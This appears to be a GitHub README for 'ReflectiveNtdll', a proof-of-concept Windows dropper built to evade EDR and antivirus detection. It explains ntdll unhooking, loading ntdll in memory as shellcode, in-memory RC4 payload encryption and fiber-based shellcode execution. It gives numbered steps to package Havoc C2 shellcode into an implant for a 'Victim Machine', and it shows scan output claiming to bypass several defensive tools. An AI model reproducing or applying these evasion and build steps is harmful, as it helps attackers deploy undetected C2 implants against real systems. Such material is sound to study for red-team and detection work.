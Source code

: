 ## :exclamation: A Small personal WeekEnd Project POC form my side. Completely Free and Open Source. Doesn't belong to my Company's Asset!

### This POC will be useful if the Operator came to know about the _`RealeaseID`_ of the Victim Windows Machine before the execution of this implant into the Victim Machine. As for different release ID, the ntdll.dll are different. In case of wrong match, this implant will ***NOT*** work/ crash!

# ReflectiveNtdll
1. A POC Dropper focusing EDR evasion (***Self-Injecting dropper***). Again thanks to [Sektor7](https://institute.sektor7.net/) by [reenz0h](https://twitter.com/SEKTOR7net)
2. NTDLL Unhooking from implant Process.
3. Followed by loading of ntdll in-memory ([BYONtdll](https://steve-s.gitbook.io/0xtriboulet/unholy-unhooking/unholy-unhooking-frbyodll)), which is present as shellcode (using [pe2shc](https://github.com/hasherezade/pe_to_shellcode) by [@hasherezade](https://twitter.com/hasherezade)).
4. Evasion via ***In-memory Payload encryption*** via [SystemFucntion033](https://www.redteam.cafe/red-team/shellcode-injection/inmemory-shellcode-encryption-and-decryption-using-systemfunction033) NtApi. It performs RC4 encryption and decryption in-memory, which ***erradicates*** "_On Injection_"  shellcode detection, as in case of normal shellcode injection, encrypted payload is decrypted just before mapping those raw shellcode in process memeory, at that particular moment, the AV trigger happens. But in this case, no chance of that as decryption occurs when it is already mapped in process memory :wink:
5. Shellcode Execution via No new thread technique via [Fiber](https://www.ired.team/offensive-security/code-injection-process-injection/executing-shellcode-with-createfiber).

### DrawBack of this POC:
To make it work in a Victim Windows Machine, Operator need to know the `ReleaseID` of the Victim Windows Machine prior to the Execution of this Implant, as based on the `ReleaseID`, ntdll.dll varies. After getting the ntdll version, follow the below mentioned steps.

### Building the Executable:
```
1. Get the shellcode from Havoc C2 (Or any C2) [Tested Against Havoc C2 only!]

2. Use (in linux/ gitbash prompt) to get header file containing shellcode : xxd -i shellcode.bin > shellcode.h

3. Then copy the 'shellcode.h' to 'Encrypt_shellcode folder':

4. Use compile.bat to create the executable to encrypt the shellcode.h and will return shellcode.bin file (remember to edit the shellcode.h file with unsigned char named "shellcode")

5. Then: ".\encrypt.exe shellcode.h" => You will get a bin file which is encrypted.

6. Now again, (in linux/ gitbash prompt) to get header file containing encrypted shellcode : xxd -i enc_shellcode.bin > enc_shellcode.h (remember to edit the shellcode.h file with unsigned char named "enc_shellcode")

7. Now to get the shellcode version of ntdll: .\pe2shc.exe .\win10_ntdll_22H2_19045_2486.dll .\win10_ntdll_22H2_19045_2486.bin
(I tested in these versions only: win10_ntdll_22H2_19045_2486 and win11-ntdll_22H2_22621-1105)
8. Again, (in linux/ gitbash prompt) to get header file containing ntdll shellcode : xxd -i win10_ntdll_22H2_19045_2486.bin > win10_ntdll_22H2_19045_2486.h

9. Move those two header file to "ReflectiveNtdll" folder

10. Run: .\compile.bat
```

### Demo:

https://user-images.githubusercontent.com/61424547/215623106-56f4d00e-c1e4-4294-8243-86ef97659712.mp4

Video Link: https://drive.google.com/file/d/11lPBx2pYpy0_wr3lzVUeDziELdT-DAlK/view?usp=share_link

### Internal Findings:
1. Bypassing [Get-InjectedThread.ps1](https://gist.github.com/jaredcatkinson/23905d34537ce4b5b1818c3e6405c1d2) by [@jaredcatkinson](https://twitter.com/jaredcatkinson?lang=en):

I used CreateThread not CreateRemoteThread, to run shellcode version of ntdll in-memory!

According to [Get-InjectedThread.ps1](https://gist.github.com/jaredcatkinson/23905d34537ce4b5b1818c3e6405c1d2):

![image](https://user-images.githubusercontent.com/61424547/215455307-fc3bea35-4c21-4ec2-8359-6d377a5b6532.png)

No CreateThread is mentioned!

![image](https://user-images.githubusercontent.com/61424547/215441788-5bb0beff-ec9c-4d80-8162-c539263e8abf.png)

2. Bypassing [DefenderCheck](https://github.com/matterpreter/DefenderCheck): by [@matterpreter](https://twitter.com/matterpreter)

![image](https://user-images.githubusercontent.com/61424547/215447444-41e1819e-9196-4d56-bd45-d5bfec1d627a.png)

3. AntiScan.me Scan:

![image](https://user-images.githubusercontent.com/61424547/215460913-ec1e4100-ca54-4b99-befb-a08469965ae6.png)

4. [Capa](https://github.com/mandiant/capa) Scan:

![image](https://user-images.githubusercontent.com/61424547/215458741-6c714c4e-c7b0-413b-98f4-60adce771652.png)

5. [Moneta](https://github.com/forrest-orr/moneta) Scan: 

![image](https://user-images.githubusercontent.com/61424547/215459656-45d2608b-28c1-4c47-a734-979cad5c7cb4.png)

As we have loaded ntdll.dll in-memory and also the implant is not signed!

6. [Pe-sieve](https://github.com/hasherezade/pe-sieve) Scan:

```diff
PS C:\Users\HP\Desktop\Tools\DefenseTools> .\pe-sieve64.exe /pid 26744 /shellc /data 3
PID: 26744
Output filter: no filter: dump everything (default)
Dump mode: autodetect (default)
[-] Could not set debug privilege
[*] Using raw process!
[*] Scanning: C:\Users\HP\Desktop\Windows\MaldevTechniques\3.Evasions\ReflectiveNtdll\implant.exe
[*] Scanning: C:\Windows\System32\ntdll.dll
[*] Scanning: C:\Windows\System32\kernel32.dll
[*] Scanning: C:\Windows\System32\KERNELBASE.dll
[*] Scanning: C:\Windows\System32\advapi32.dll
[*] Scanning: C:\Windows\System32\msvcrt.dll
[*] Scanning: C:\Windows\System32\sechost.dll
[*] Scanning: C:\Windows\System32\rpcrt4.dll
[*] Scanning: C:\Windows\System32\cryptsp.dll
[*] Scanning: C:\Windows\System32\bcrypt.dll
[*] Scanning: C:\Windows\System32\bcryptprimitives.dll
[*] Scanning: C:\Windows\System32\crypt32.dll
[*] Scanning: C:\Windows\System32\ucrtbase.dll
[*] Scanning: C:\Windows\System32\mscoree.dll
[*] Scanning: C:\Windows\System32\oleaut32.dll
[*] Scanning: C:\Windows\System32\msvcp_win.dll
[*] Scanning: C:\Windows\System32\combase.dll
[*] Scanning: C:\Windows\System32\user32.dll
[*] Scanning: C:\Windows\System32\win32u.dll
[*] Scanning: C:\Windows\System32\gdi32.dll
[*] Scanning: C:\Windows\System32\gdi32full.dll
[*] Scanning: C:\Windows\System32\imm32.dll
[*] Scanning: C:\Windows\System32\shell32.dll
[*] Scanning: C:\Windows\System32\winhttp.dll
[*] Scanning: C:\Windows\System32\IPHLPAPI.DLL
[*] Scanning: C:\Windows\System32\wkscli.dll
[*] Scanning: C:\Windows\System32\netapi32.dll
[*] Scanning: C:\Windows\System32\samcli.dll
[*] Scanning: C:\Windows\System32\srvcli.dll
[*] Scanning: C:\Windows\System32\netutils.dll
[*] Scanning: C:\Windows\System32\sspicli.dll
[*] Scanning: C:\Windows\System32\nsi.dll
[*] Scanning: C:\Windows\System32\dhcpcsvc.dll
[*] Scanning: C:\Windows\System32\ws2_32.dll
[*] Scanning: C:\Windows\System32\webio.dll
[*] Scanning: C:\Windows\System32\mswsock.dll
[*] Scanning: C:\Windows\System32\winnsi.dll
[*] Scanning: C:\Windows\System32\schannel.dll
[*] Scanning: C:\Windows\System32\mskeyprotect.dll
[*] Scanning: C:\Windows\System32\ntasn1.dll
[*] Scanning: C:\Windows\System32\ncrypt.dll
[*] Scanning: C:\Windows\System32\ncryptsslp.dll
[*] Scanning: C:\Windows\System32\msasn1.dll
[*] Scanning: C:\Windows\System32\rsaenh.dll
[*] Scanning: C:\Windows\System32\CRYPTBASE.dll
[*] Scanning: C:\Windows\System32\gpapi.dll
[*] Scanning: C:\Windows\System32\dpapi.dll
[*] Scanning: C:\Windows\System32\dnsapi.dll
Scanning workingset: 328 memory regions.
[*] Workingset scanned in 2500 ms
[+] Report dumped to: process_26744
[*] Dumped module to: C:\Users\HP\Desktop\Tools\DefenseTools\\process_26744\234daa50000.shc as VIRTUAL
[*] Dumped module to: C:\Users\HP\Desktop\Tools\DefenseTools\\process_26744\234daa61000.shc as VIRTUAL
[*] Dumped module to: C:\Users\HP\Desktop\Tools\DefenseTools\\process_26744\234dabc0000.dll as UNMAPPED
[+] Dumped modified to: process_26744
[+] Report dumped to: process_26744
---
PID: 26744
---
SUMMARY:

Total scanned:      48
Skipped:            0
-
Hooked:             0
Replaced:           0
Hdrs Modified:      0
IAT Hooks:          0
-Implanted:          3
-Implanted PE:       2
-Implanted shc:      1
Unreachable files:  0
Other:              0
-
-Total suspicious:   3
---
```

7. [PEBear](https://github.com/hasherezade/pe-bear) View: IAT Table

![image](https://user-images.githubusercontent.com/61424547/215467783-9adff000-8285-4692-b14e-8100e62ddf9e.png)

Suspicious usage of WinApi is removed from IAT

### Also thanks to:
1. [@Jean_Maes_1994](https://twitter.com/Jean_Maes_1994) for enlightening me, regarding the internals of EDR and other suggestions.
2. [@D1rkMtr](https://twitter.com/D1rkMtr/) for having a spontenious discussion on ImplantDev.
3. [@_winterknife_](https://twitter.com/_winterknife_) for his [Wraith](https://github.com/slaeryan/AQUARMOURY/tree/master/Wraith) Project.
4. [@peterwintrsmith](https://twitter.com/peterwintrsmith) for enlightening me, regarding the internals of `ntdll.dll` hooking by EDR.
